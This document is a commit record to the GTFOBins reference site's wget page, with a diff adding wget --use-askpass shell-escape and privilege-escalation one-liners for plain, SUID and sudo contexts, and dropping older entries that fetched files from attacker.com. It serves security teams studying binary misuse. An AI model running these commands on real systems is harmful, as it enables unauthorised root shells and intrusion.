

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/wget.md, in a window 1280 px wide and 900 px high, scrolled down 1195 px. Shown: the top 872 px of the window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1929 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Add wget shell via --use-askpass
Co-authored-by: Andrea Cardaci <cyrus.and@gmail.com>

```diff
--- a/_gtfobins/wget.md
+++ b/_gtfobins/wget.md
@@ -1,5 +1,11 @@
 ---
 functions:
+  shell:
+    - code: |
+        TF=$(mktemp)
+        chmod +x $TF
+        echo -e '#!/bin/sh\n/bin/sh 1>&0' >$TF
+        wget --use-askpass=$TF 0
   file-upload:
     - description: Send local file with an HTTP POST request. Run an HTTP service on the attacker box to collect the file. Note that the file will be sent as-is, instruct the service to not URL-decode the body. Use `--post-data` to send hard-coded data.
       code: |
@@ -25,15 +31,15 @@ functions:
         LFILE=file_to_save
         wget $URL -O $LFILE
   suid:
-    - description: Fetch a remote file via HTTP GET request.
-      code: |
-        URL=http://attacker.com/file_to_get
-        LFILE=file_to_save
-        ./wget $URL -O $LFILE
+    - code: |
+        TF=$(mktemp)
+        chmod +x $TF
+        echo -e '#!/bin/sh -p\n/bin/sh -p 1>&0' >$TF
+        ./wget --use-askpass=$TF 0
   sudo:
-    - description: Fetch a remote file via HTTP GET request.
-      code: |
-        URL=http://attacker.com/file_to_get
-        LFILE=file_to_save
-        sudo wget $URL -O $LFILE
+    - code: |
+        TF=$(mktemp)
+        chmod +x $TF
+        echo -e '#!/bin/sh\n/bin/sh 1>&0' >$TF
+        sudo wget --use-askpass=$TF 0
 ---
```
